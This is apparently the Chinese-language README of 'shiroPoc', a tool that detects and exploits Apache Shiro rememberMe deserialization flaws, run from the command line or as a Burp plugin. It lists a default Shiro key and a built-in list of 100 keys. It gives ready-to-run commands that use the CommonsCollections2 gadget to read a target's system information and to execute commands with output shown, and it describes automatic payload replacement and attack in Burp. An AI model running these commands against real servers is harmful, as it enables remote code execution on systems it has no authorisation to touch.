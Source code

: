 mvn package 编译

## 欢迎关注 宽字节安全 公众号
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//imgWeChat%20Image_20200612150038.png)
## changelog
1. 新增shiro 检测方式(对，就是那个不需要gadget的检测方式) 2020.7.30
2. 新增shiro 100 key
3. 支持自定义key
4. 支持作为插件导入burp

## burp插件使用方法
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801160819.png)

repeater界面中右键，生成payload
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801160932.png)
默认kph密钥，cc2利用链，获取信息，如果需要修改，请右键选择config
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801161039.png)

生成后，会自动替换request内容，并攻击

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200801161129.png)


当然，这个jar包也可以直接在命令行下运行，生成rememberMe，或者检测，一切不变

自定义key检测
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/samples_web_war/ kPH+bIxk5D2deZiIxcaaaA==
```

内置100key检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```

```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar kPH+bIxk5D2deZiIxcaaaA== CommonsCollections2 XraySysProp
```

## 检测方式
运行
```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc 
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200713.png)


检测

```
java -cp .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar org.unicodesec.poc http://localhost:8080/sam
ples_web_war/
```
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200730200536.png)


## shiro-urldns 检测&利用工具
支持shiro 16个key，支持攻击利用。支持的key与gadget以及攻击类型如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726115923.png)


## 查看目标服务器的系统信息
该攻击类型为`XraySysProp`，使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XraySysProp
```

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121111.png)

利用截图如下

![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726121840.png)

## 执行命令并回显
该攻击类型为`XrayCmd` 使用方法如下
```
java -jar .\shiroPoc-1.0-SNAPSHOT-jar-with-dependencies.jar 16 CommonsCollections2 XrayCmd
```
利用截图如下
![](https://potatso-1253210846.cos.ap-beijing.myqcloud.com//img20200726122210.png)

## 注意事项
1. 建议删除不相关的http请求头，不然会因为http请求头过大而提示400错误
2.  建议使用CommonsCollections2 gadget，体积小，利用率高
